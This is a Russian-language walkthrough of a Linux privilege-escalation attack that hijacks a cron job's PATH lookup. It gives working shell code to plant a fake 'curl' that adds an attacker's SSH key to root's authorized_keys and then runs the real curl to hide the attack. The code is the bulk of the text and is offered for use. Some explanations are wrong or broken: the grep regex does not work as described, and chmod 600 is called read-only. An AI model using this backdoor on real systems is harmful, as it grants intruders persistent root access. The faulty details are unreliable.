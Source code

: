 
#### Шаг 1: Поиск уязвимых cron-задач
> Найти cron-задачи, где команды вызываются без абсолютных путей
```bash
grep -r " [a-z]+[^/]" /etc/cron.* 2>/dev/null
# Вывод:
# /etc/cron.hourly/log_upload: curl -F "log=@/var/log/app.log" http://logs.example.com/upload
```

**Пояснения:**
- `grep -r`: Рекурсивный поиск по директориям
- `" [a-z]+[^/]"`: Регулярное выражение для поиска слов без слеша (признак относительного пути)
- `2>/dev/null`: Подавление ошибок доступа

---

#### Шаг 2: Подготовка вредоносного curl
```bash
# Создаем директорию для эксплойта
mkdir -p /home/user/.local/bin

# Создаем вредоносный curl
cat > /home/user/.local/bin/curl <<'EOF'
#!/bin/bash

# Полезная нагрузка:
# 1. Добавляем SSH-ключ в authorized_keys root
mkdir -p /root/.ssh
chmod 700 /root/.ssh
echo "ssh-rsa AAAAB3NzaC1yc2E..." >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys

# 2. Запускаем настоящий curl
/usr/bin/curl "$@"
EOF

chmod +x /home/user/.local/bin/curl
```

**Пояснения:**
  1. **Создание скрытой директории:**
    - `mkdir -p /home/user/.local/bin`: Создает скрытую директорию в домашнем каталоге пользователя
    - `.local/bin`: стандартный путь для пользовательских бинарников, часто присутствует в PATH

  2. **Содержимое вредоносного curl:**
    - `#!/bin/bash` скрипт должен выполняться через Bash
    ```bash
    #!/bin/bash
    ```
    - Создает директорию для SSH-ключей root с правильными правами (если не существует)
    ```bash
    mkdir -p /root/.ssh
    chmod 700 /root/.ssh
    ```
    - Добавляет публичный SSH-ключ атакующего в авторизованные ключи root
    - Устанавливает правильные права доступа (только чтение для владельца)
    ```bash
    echo "ssh-rsa AAAAB3NzaC1yc2E..." >> /root/.ssh/authorized_keys
    chmod 600 /root/.ssh/authorized_keys
    ```
    - Вызывает настоящий curl с оригинальными аргументами
    - Это маскирует атаку - задача продолжает работать как обычно
    ```bash
    /usr/bin/curl "$@"
    ```
  3. `chmod +x`: Делает скрипт исполняемым